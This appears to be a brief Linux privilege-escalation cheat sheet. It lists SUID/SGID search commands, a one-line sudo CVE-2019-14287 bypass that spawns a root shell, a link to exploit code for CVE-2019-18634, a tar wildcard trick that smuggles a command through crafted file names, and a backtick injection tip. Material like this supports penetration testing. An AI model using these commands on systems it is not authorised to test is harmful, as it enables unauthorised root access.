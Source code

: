 # Linux Enumeration

| Command | Summary |
| ---------------------------- | ---------------------------- |
| Find SUID files | ```find / -perm -u=s -type f 2>/dev/null``` |
| Alternate Find SUID files | ```find / -type f -perm -04000 -ls 2>/dev/null``` |
| Find SGID files | ```find / -perm -g=s -type f 2>/dev/null``` |


| Check | Description |
| ---------------------------- | ---------------------------- |
| Sudo Local Privilege Escalation (CVE-2019-14287) | Sudo versions < 1.8.27 may be vulnerable to LPE, check: ```sudo -u#-1 /bin/bash``` |
| Sudo Buffer Overflow (CVE-2019-18634)| Sudo versions < 1.8.26 may be vulnerable to a buffer overflow, pwfeedback enabled: [GitHub for Code](https://github.com/saleemrashid/sudo-cve-2019-18634/blob/master/exploit.c) |
| Tar wildcard * | Checkpoint syntax ```touch /home/user/--checkpoint=1``` and ```touch /home/user/--checkpoint-action=exec=sh\ shell.sh``` | 
| LFI /api/?something=`whoami` | Try using the ``` ` ``` backtick symbol in addition to quotes ' |
| Shell escapes | Be sure that your terminal window has enough text for pagination, or else the shell escape may not work |
